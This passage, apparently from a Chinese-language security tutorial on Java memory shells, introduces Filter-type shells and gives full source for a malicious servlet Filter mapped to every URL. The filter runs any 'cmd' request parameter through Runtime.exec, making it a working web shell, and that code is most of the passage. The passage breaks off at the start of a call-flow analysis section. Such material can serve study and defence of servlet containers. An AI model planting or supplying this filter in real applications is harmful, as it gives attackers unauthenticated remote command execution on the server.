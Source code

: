 ![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712628253152-c4f9d6b0-b452-4417-8726-458d57f4f7c4.png)

## 4.2、Filter型

仿照`Listener`型内存马的实现思路，我们同样能实现`Filter`型内存马。我们知道，在`Servlet`容器中，`Filter`的调用是通过`FilterChain`实现的
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712628303549-3ef34696-10c8-4804-95b2-f43a0f118634.png#averageHue=%23ededed&clientId=u8763c45e-e621-4&from=paste&height=421&id=uea26a89e&originHeight=842&originWidth=2882&originalType=binary&ratio=2&rotation=0&showTitle=false&size=165127&status=done&style=none&taskId=u05472da3-82c1-4eb3-aa9b-77d995ccf1f&title=&width=1441)
先来实现一个恶意的Filter

```java
package com.ma.FilterMa;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.IOException;

@WebFilter("/*")
public class FilterMa1 implements Filter {

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        String cmd = request.getParameter("cmd");
        System.out.println("FilterMa1触发: " + cmd);
        if (cmd != null) {
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                e.printStackTrace();
            } catch (NullPointerException n) {
                n.printStackTrace();
            }
        }
        chain.doFilter(request, response);
    }

    @Override
    public void destroy() {

    }
}

```

![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712628888418-ae8f22f9-5a39-4ad3-b72b-89f01bc253da.png)

### 4.2.1、Filter调用分析
